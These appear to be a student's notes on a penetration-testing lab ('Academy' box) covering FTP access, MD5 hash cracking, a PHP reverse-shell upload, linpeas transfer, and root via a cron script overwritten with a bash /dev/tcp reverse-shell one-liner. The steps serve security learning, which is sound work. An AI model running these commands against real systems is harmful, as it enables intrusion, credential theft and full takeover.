

Username:root
passwd:tcm

apache server probably means php in backend

anonymous login to ftp:
username:anonymous(random try)
passwd:anonymous
login was successful

nmap revealed that there was a file note.txt


copy the password hash
#hash-identifier
tool built in kali linux
paste the hash

possible md5 hash
tool for passwd cracking:hashcat
*hascracking uses GPU not CPU so try to run on main OS and not VM
#hashcat –m 0 hashes.txt /usr/share/wordlists/rockyou.txt


password is student,we also have the username and userID from note.txt we got from ftp
#dirb http://192.168.57.8
for directory busting:no need for worlists
another tool:ffuf for directory busting

-w:wordlists
-u:url
replace Fuzz in url with wordlists words

go to http://192.168.57.8/academy
put the credentials
right click on img->open image in new tab:to see where image is stored

instead of img,try to upload a malware,if typeof file check is not done
google php reverse shell:go to pentestmonkey
copy .php file raw and paste it in file->paste in shell.php
change ip in the php file to attacker machine ip
#nc -nlvp 1234
port should be same as that in shell.php
now upload the shell file i.e shell.php
and we get a reverse shell

we are not root

so we need to perform privilage escalation
tool for privilage escalation on linux:linpeas(github:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
#cd transfer(folder containing linpeas.sh)
#python3 -m http.server 80
host that folder on a server so that we can download it on victim using wget
in academy reverse shell we got
#cd tmp
#pwd
#wget http://<serverIP>/linpeas.sh
Wget is the non-interactive network downloader which is used to download files from the server even
when the user has not logged on to the system and it can work in the background without hindering the current process.


/var/www/html/academy/includes/config.php
#cat /var/www/html/academy/includes/config.php


/etc/passwd:shows grimmie is administator
#ssh grimmie@192.168.57.8

now we are in the machine as grimmie:

looks like backup.sh runs periodically
tool:pspy

#chmod +x pspy
this shows all process running on the machine and we can see them even without sudo privilages
try to find backup.sh because it looked like backup.sh was running periodically

backup.sh running every minute
google:bash reverse shell one liner:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
#bash -i >& /dev/tcp/<attackerIP>/8080 0>&1
we have a shell script:backup.sh
we put this one liner in the shell script and it will perform reverse shell
in grimmie:
#nano backup.sh
delete existing code and replace with reverse shell one liner
in kali:
#nc -nvlp 8080
wait for some time coz script runs every minute
and we get a reverse shell as root this time